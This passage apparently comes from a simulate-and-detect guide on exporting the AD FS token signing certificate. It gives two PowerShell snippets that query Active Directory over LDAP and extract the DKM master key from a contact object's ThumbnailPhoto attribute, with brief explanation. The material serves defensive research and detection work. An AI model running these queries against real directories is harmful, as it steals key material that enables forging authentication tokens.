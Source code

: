```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter='(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADUser=$ADSearch.FindOne()
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_14_ldap_thumbnailphoto_filter.png)

One could also filter on the `CryptoPolicy` contact object inside of the AD FS DKM container and get the value of its `DisplayName` attribute. This attribute refers to the `l` attribute of the right AD contact object that contains the DKM master key value. The DKM key is stored in its `ThumbnailPhoto` attribute.

```PowerShell
$ADSearch = [System.DirectoryServices.DirectorySearcher]::new([System.DirectoryServices.DirectoryEntry]::new($base))
$ADSearch.Filter = '(name=CryptoPolicy)'
$aduser = $ADSearch.FindOne()
$keyObjectGuid = $ADUser.Properties["displayName"]
$ADSearch.PropertiesToLoad.Add("thumbnailphoto") | Out-Null
$ADSearch.Filter="(l=$keyObjectGuid)"
$aduser=$ADSearch.FindOne() 
$key=[byte[]]$aduser.Properties["thumbnailphoto"][0]
[System.BitConverter]::ToString($key)
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_15_ldap_filter_cryptopolicy.png)
